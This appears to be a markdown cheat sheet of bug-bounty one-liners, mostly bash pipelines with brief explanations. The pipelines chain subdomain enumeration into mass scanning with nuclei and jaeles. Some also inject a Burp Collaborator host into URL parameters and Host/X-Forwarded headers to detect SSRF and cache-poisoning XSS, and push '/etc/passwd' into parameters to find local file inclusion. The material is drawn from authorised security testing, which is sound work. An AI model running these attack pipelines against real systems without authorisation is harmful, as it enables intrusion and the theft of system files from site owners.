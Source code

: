 ## Recon to search SSRF Test
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

## Using shodan & Nuclei
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

Shodan is a search engine that lets the user find specific types of computers connected to the internet, AWK Cuts the text and prints the third column. httpx is a fast and multi-purpose HTTP using -silent. Nuclei is a fast tool for configurable targeted scanning based on templates offering massive extensibility and ease of use, You need to download the nuclei templates.
```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```

## Using Chaos to jaeles "How did I find a critical today?.
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

To chaos this project to projectdiscovery, Recon subdomains, using httpx, if we see the output from chaos domain.com we need it to be treated as http or https, so we use httpx to get the results. We use anew, a tool that removes duplicates from @TomNomNom, to get the output treated for import into jaeles, where he will scan using his templates.
```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```
edited **if we don't have chaos api_key**
```bash
cat domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s ~/Tools/jaeles-signatures -u @
```

## Check Blind ssrf in Header,Path,Host & check xss via web cache poisoning.
> @sratarun
```bash
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotort'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotort'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotort'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotort HTTP/1.1 ""\n";done\
```

### Local File Inclusion
> @dwisiswant0
```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
